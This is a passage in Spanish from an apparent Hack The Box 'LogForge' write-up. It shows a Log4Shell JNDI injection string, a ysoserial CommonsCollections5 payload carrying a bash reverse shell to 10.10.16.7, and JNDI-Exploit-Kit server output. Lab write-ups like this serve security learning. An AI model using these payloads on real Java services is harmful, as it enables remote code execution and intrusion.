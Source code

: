 ```bash
${jndi:ldap://10.10.16.7:9001/LoqueSeaa}
```
Recursos que necesitamos -- Procedemos a clonarnos los siguientes dos Repositorios de Github:
- YsoSerial - Modified → https://github.com/pimps/ysoserial-modified/tree/master/target  → Servira para crear nuestro Payload
- JNDI-Exploit-Kit --→ https://github.com/pimps/JNDI-Exploit-Kit  → para Montarnos un server con LDAP para ofrecerle nuestro Payload creado con Ysoserial - Modified

Procedemos a meternos en el recurso descargado de Ysoserial-Modified y sobre el archivo  `ysoserial-modified.jar` le metemos el `COmmonsColloctions5 bash` y le metemos nuestro comando
para crear nuestro payload `setenso.ser`  
```bash
$ java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.16.7/443 0>&1' > setenso.ser
```
Procedemos a montar con el KIT-JNDI-Injection-Exploit y el archivo `JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar` a montarnos el server LDAP y pasarle nuestro payload
```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.16.7:1389 -P /home/pro/Escritorio/HTB/LogForge/exploits/yso/setenso.ser
       _ _   _ _____ _____      ______            _       _ _          _  ___ _   
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |  
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                    
                                           |_|               created by @welk1n 
                                                             modified by @pimps 

[HTTP_ADDR] >> 10.10.16.7
[RMI_ADDR] >> 10.10.16.7
[LDAP_ADDR] >> 10.10.16.7
[COMMAND] >> open /System/Applications/Calculator.app
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.16.7:1099/xz8ibv
ldap://10.10.16.7:1389/xz8ibv
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.16.7:1099/8fevaq
ldap://10.10.16.7:1389/8fevaq
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.16.7:1099/dbyqtd
ldap://10.10.16.7:1389/dbyqtd
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.16.7:1099/ez03wo
"ldap://10.10.16.7:1389/ez03wo"
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.16.7:1099/ktgct2
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.16.7:1099/hbyhk1

----------------------------Server Log----------------------------
2021-12-29 18:27:42 [JETTYSERVER]>> Listening on 10.10.16.7:8180
2021-12-29 18:27:42 [RMISERVER]  >> Listening on 10.10.16.7:1099
2021-12-29 18:27:42 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

